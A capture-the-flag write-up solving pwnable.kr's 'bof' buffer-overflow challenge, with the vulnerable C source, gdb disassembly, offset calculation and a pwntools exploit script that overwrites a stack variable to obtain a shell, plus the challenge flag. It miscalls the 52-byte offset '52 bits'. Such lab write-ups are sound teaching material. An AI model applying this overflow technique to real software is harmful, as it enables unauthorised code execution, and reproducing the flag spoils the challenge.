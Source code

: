 
#Objective:
This is a 5 point challenge from pwnable.kr


Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?


Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c


Running at : nc pwnable.kr 9000

#Solution:

To start off, let’s try running the program.

```
sudo chmod +x bof
./bof
overflow me :
Buy me dinner first
Nah..
```

Ok it looks like a binary exploitation problem. Since pwnables was polite enough to give us the source code, let’s take a look at that.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

They even comented the code for us, nana is really nice. But looking at the “main” function, it just calls the “func” function and passed along the hex value “deadbeef”. Looking at the “func” function it imports a value and stores it as “key”. Later on the function calls the “gets” function, which is vulnerable since it doesn’t have a limit (use fgets, you can specify a read size with that thus patching the exploit). Proceeding that it checks to see if “key” is equal to the hex value “0xcafebabe”. So it looks like we will have to use a buffer overflow exploit to overwrite “key” to “0xcafebabe”. 

To start working on that, we need to look at the assembly code. Time to fire up gdb-peda (idk if you need to use sudo but I solved this challenge using it).

```
sudo gdb ./bof”
```

Since we are primarily concerned with the “func” function, we can just disassemble that.

```
disas func
Dump of assembler code for function func:
   0x5655562c <+0>:    push   ebp
   0x5655562d <+1>:    mov    ebp,esp
   0x5655562f <+3>:    sub    esp,0x48
   0x56555632 <+6>:    mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e57b80 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e572c0 <gets>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7e32d80 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e57b80 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7eef740 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
```

While looking at this we can tell that the if then statement is located at “0x56555654”, since that is the address of the only compare (cmp) operator. Since it is comparing “ebp+0x8” to “0xcafebabe” we can tell that “key” is stored at “ebp+0x8”. As for the location we have input for, the gets function that accepts our input is called at “0x5655564f”. We can tell this because of how the program was coded, it should be the second function called in this function (and gdb labelled it gets). Right before it gets called, the stack value “ebp-0x2c” get;s pushed onto the stack. Since a functions arguments are pushed onto the stack before a function is called our input should be stored there. So we should be able to calculate the distance between “ebp-0x2c” and “ebp+0x8”, then overflow just the amount and be able to write to key, and then pwn the program. To calculate the distance we will need to use gdb to find the location of both, and set a breakpoint at the cmp operator.

```
b *0x56555654
```

Now we just have to run it

```
r


Starting program: /Hackery/pwnables/toddlers_bottle/bof/bof
overflow me :
Buy me dinner first
```

Now we are at a spot where we can see the location for both. To do so, we will just be using the gdb function “x” (which stands for examine).

```
x $ebp+0x8
0xffffd690:    0xdeadbeef
```

As you can see here, this location has the correct value for key. Now to look at the other register’s value.

```
x $ebp-0x2c
0xffffd65c:    0x00736476
```

Now that we have the two locations, we should be able to just subtract the two and get the difference. Btw the actual hex values may be different, but the difference should be the same. Now that we know the difference we can go ahead and write our exploit.

```
0xffffd690 - 0xffffd65c = 52
```

And the difference value is 52 bits. To fill this gap, we can just send 52 characters. As for the hex value, we have to format it so the server will handle it properly (pwn tools has a cool function for this which will handle all of the hard work for us). Below is the code for the exploit.  

```
#First we import pwntools
from pwn import *


#Then we establish the remote connection to the server
conn = remote("pwnable.kr", 9000)


#Now we setup the payload which we will send to the challenge. Pwntools has a cool feature to help us pack the hex value in a 32 bit form that the server can read (p32).
payload = "1"*52 + p32(0xcafebabe)


#Now we send the payload
conn.sendline(payload)


#Now we drop down to an interactive shell so we can interact with our shell
conn.interactive()
```

After that we can just list all of the files in the directory, and cat the “flag” file.

Flag: daddy, I just pwned a buFFer :)



